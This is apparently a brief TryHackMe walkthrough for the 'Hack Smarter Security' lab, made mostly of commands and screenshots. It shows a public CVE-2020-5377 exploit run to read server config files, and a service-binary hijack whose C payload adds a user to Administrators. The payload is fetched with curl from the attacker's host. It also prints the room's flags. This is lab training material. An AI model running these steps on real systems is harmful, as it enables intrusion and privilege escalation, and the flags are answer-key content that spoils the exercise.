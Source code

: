 ### 23-Mar-24-Sat

[TryHackMe | Hack Smarter Security](https://tryhackme.com/r/room/hacksmartersecurity)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/822b3b08-670c-4f68-b108-a1629138da88)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/a13db521-7da8-4202-9fc3-c6eba70250fb)

```
ftp anonymous@hacksmarter.thm
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/6b6b1042-c179-4479-9329-f10e39905d92)

https://0xb0b.gitbook.io/writeups/tryhackme/2024/hack-smarter-security#initial-foothold

https://raw.githubusercontent.com/RhinoSecurityLabs/CVEs/master/CVE-2020-5377_CVE-2021-21514/CVE-2020-5377.py

```
python CVE-2020-5377.py 10.17.44.152 10.10.171.27:1311
```

```
C:\inetpub\wwwroot\application\web.config
```

```
C:\inetpub\wwwroot\hacksmartersec\web.config
```

```
C:\Windows\win.ini
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/536b34fa-04af-487a-a6f1-40f44e054c04)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/a59e1e6c-019b-4515-9eee-e131179b4359)

```
THM{4ll15n0tw3llw1thd3ll}
```

https://jaxafed.github.io/posts/tryhackme-hack_smarter_security/#shell-as-tyler

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/c489b025-5717-4961-84eb-5fd50423ddf2)

```
sc qc spoofer-scheduler
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/6d2ab7a9-f9fb-4a25-bc54-d6eede868ede)

```
icacls "C:\Program Files (x86)\Spoofer\spoofer-scheduler.exe"
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/be0ee078-a8ee-418f-90d2-9e45c4713fb9)

```
#include <stdlib.h>

int main() {
  system("cmd.exe /c net localgroup Administrators tyler /add");
  return 0;
}
```

```
x86_64-w64-mingw32-gcc-win32 payload.c -o payload.exe
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/e5592ea3-8509-413a-860c-0df304f7b497)

```
sc stop spoofer-scheduler
```

```
move spoofer-scheduler.exe spoofer-scheduler.exe.bak
```

```
curl http://10.17.44.152/payload.exe -o spoofer-scheduler.exe
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/f597a472-ecdd-42e3-890c-cb2efef23dd6)

```
whoami /groups
```

type C:\Users\Administrator\Desktop\Hacking-Targets\hacking-targets.txt

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/f09fc9d0-466f-44ae-a436-c0ee23a8359b)

```
CyberLens, WorkSmarter, SteelMountain
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/b72e44ff-6134-44ea-8301-50caa3c93533)
